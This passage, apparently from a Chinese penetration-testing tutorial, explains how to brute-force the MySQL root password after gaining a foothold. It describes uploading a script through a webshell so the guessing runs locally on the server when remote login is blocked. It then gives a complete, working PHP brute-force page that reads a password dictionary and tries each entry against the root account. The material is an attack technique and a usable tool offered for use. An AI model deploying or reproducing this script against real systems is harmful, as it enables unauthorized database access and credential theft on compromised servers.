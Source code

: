 **方法3：利用脚本暴力猜解**

**不支持外连**

获取数据库最高权限密码，一般我们使用前两种方法居多，如果前两种方法实在用不了，我们才考虑使用暴力猜解。暴力猜解之前，需要先了解数据库是否支持外联以及如何开启外联。

- 若数据库支持外联，可以远程本地暴力猜解；
- 若数据库不支持外联，可以服务器本地暴力猜解。

但是，其实root账户一般是不支持外联的，所以没法使用工具进行本地暴力猜解，但是我们可以将脚本通过webshell上传到服务器，在服务器本地使用脚本暴力猜解。

暴力破解脚本。

```php
<html>
 <head>
  <title>Mysql账号密码在线爆破工具</title>
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
 </head>
 <body>
  <center>
   <br><br>
   <h1>Mysql账号密码在线爆破工具 V2.0</h1>
  <br>
<?php
 if(@$_POST['submit']){
   $host = @$_POST['host'];
   if($host!==""){
    $username = "root";//用户名字典
	$password = array();
	$filename = "pwd.txt"; //同目录下密码字典
	$i=0;
	$file = fopen($filename,'r');
	while(! feof($file)){
		$password[$i] = fgets($file);
		$i++;
	}
	fclose($file);
    echo "<hr><br>-----------------------爆破状态-----------------------<br>";
    for ($l=0; $l <= count($password); $l++) {
		$password1 = trim($password[$l]);	//除去左右空白
		if(@mysql_connect($host, $username, $password1)){
			echo "<script>alert('数据库密码为：{$password1}')</script>";
			echo "<br><br><font color='red'>爆破成功--密码-->".@$password1."</font>";
			break;
		}else{
			continue;
		}
    }
    echo "<br>----------------------爆破结束-----------------------<br><hr>";
   }else{
    echo "<script>alert('黑客，输入数据库IP地址')</script>";
   }
 }
?>
<br><br><br><br>
  <form action="Completion.php" method="post">
   数据库IP地址:<input type="text" name="host"/>
   <input type="submit" value="爆破" name="submit"/>
  </form>
<center>
</body>
</html>
```
